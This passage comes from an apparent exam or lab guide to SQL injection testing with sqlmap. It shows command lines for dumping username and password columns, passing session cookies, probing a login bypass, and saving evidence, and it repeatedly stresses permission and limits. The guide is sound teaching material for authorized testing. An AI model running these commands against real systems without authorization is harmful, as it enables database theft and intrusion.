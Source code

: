 ```bash
sqlmap -r request.txt -D <dbname> -T <table> -C "id,username,password" --dump --batch
# use -C to limit columns. Do not dump whole DB unless permitted.
```

**7) Authentication forms / cookies**
If the vulnerable request requires existing session cookies or login:

```bash
# either include Cookie header in request.txt (captured) or:
sqlmap -r request.txt --cookie="PHPSESSID=abcd1234; other=val" --batch
# For POST forms, request.txt handles --data automatically.
```

**8) Use a safe level when testing a login bypass**

```bash
sqlmap -r request.txt --data="username=admin&password=*" --batch --level=1 --risk=0
```

(Only if necessary—prefer saved request approach.)

**9) Output to file**

```bash
sqlmap -r request.txt --dbs --batch -o --output-dir=output_sqlmap
# sqlmap will save logs and found data under output_sqlmap/
```

---

## 7) Interpreting sqlmap output & what to save

**Key things sqlmap prints:**

- Injection type (boolean-based blind, error-based, UNION-based, time-based)
- Parameter name & position (e.g., `GET parameter 'id' is injectable`)
- Evidence (response pieces used to detect)
- Databases / tables / columns discovered (if enumeration ran)
- Dumps (if you used `--dump`)

**Save these as evidence:**

- `output_sqlmap/target_info.txt` or redirect stdout to `evidence/sqlmap_output.txt`.
- If `--dbs` shows names, copy that output into `evidence/02_sqlmap_dbs.txt`.
- If you dump a table (only with permission), save as `evidence/03_dump_users.csv` (limit rows).
- Screenshots: `evidence/04_sqlmap_console.png` showing sqlmap run in terminal.

---

## 8) Safe post-discovery actions (enumeration & minimal dump)

**Recommended exam policy:**

1. **Enumerate** (`--dbs`, `--tables`) only to show that you can identify schema. Save results.
2. **If allowed**, dump a single non-sensitive column or a few rows from a non-personal table (e.g., `products`), not users’ passwords. If you must show credentials for the exercise, request instructor consent.
3. **Avoid destructive payloads** (`--os-shell`, `--file-write`, `--sql-shell`) unless explicitly authorized.

